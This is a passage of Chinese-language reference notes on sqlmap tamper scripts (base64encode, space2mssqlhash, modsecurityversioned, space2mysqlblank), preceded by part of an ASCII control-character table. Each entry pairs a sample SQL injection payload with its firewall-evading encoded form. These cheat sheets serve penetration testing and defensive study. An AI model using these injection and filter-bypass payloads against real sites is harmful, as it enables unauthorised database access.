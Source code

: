 #      BS            08            backspace
#      TAB          09             horizontal tab
#      LF            0A            new line
#      VT            0B            vertical TAB
#      FF            0C            new page
#      CR            0D            carriage return
#      SO            0E            shift out
#      SI            0F            shift in
```
```
脚本名：base64encode.py
作用：用base64编码替换
例子:
("1' AND SLEEP(5)#")
'MScgQU5EIFNMRUVQKDUpIw=='
要求:
all
```
```
脚本名：space2mssqlhash.py
作用：替换空格
例子:
('1 AND 9227=9227')
'1%23%0AAND%23%0A9227=9227'
要求:
·MSSQL
·MySQL
```
```
脚本名：modsecurityversioned.py
作用：过滤空格，包含完整的查询版本注释
例子:
('1 AND 2>1--')
'1 /*!30874AND 2>1*/--'
要求:
·MySQL
```
```
脚本名：space2mysqlblank.py
作用：空格替换其它空白符号(mysql)
例子:
SELECT id FROM users
SELECT%0Bid%0BFROM%A0users
要求:
·MySQL
